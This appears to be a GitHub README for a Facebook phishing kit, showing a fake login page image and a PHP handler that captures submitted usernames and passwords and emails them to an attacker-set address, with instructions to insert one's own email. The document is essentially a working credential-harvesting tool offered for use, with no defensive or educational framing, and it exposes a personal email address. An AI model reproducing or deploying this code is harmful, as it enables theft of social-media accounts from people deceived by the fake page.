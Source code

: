 # Facebook-Phishing
Facebook Phishing { UI &amp;  [fish (User_Name &amp; Password)] Send Your email address }
<br><br>
![ui01](https://user-images.githubusercontent.com/77710282/158953984-17708128-2cff-445f-88c9-0f6daf64e9ee.PNG)


## PHP MAIL FUNCTION
```
<?php 
	if ( isset($_POST['submit']) )
	{
		$email		= $_POST['email'];
		$subject	= $_POST['subject'];
  
		$to	 		  = 'dhjptharindu@gmail.com'; // your email address
		$mail_subject = 'FACEBOOK PHISHING ';
		$email_body   = "<h2> FISH FACEBOOK DETAILS: </h2><br><br>";
                $email_body   .= "<b>USER NAME:</b> {$subject} <br>";
		$email_body   .= "<b>PASSWORD:</b> {$email} <br>";
		$header       = "From: {$email}\r\nContent-Type: text/html;";

		$send_mail_result = mail($to, $mail_subject, $email_body, $header);
	}
?>
```
## YOU MAIL Mail  
```
$to	 		  = 'dhjptharindu@gmail.com'; // your email address
```
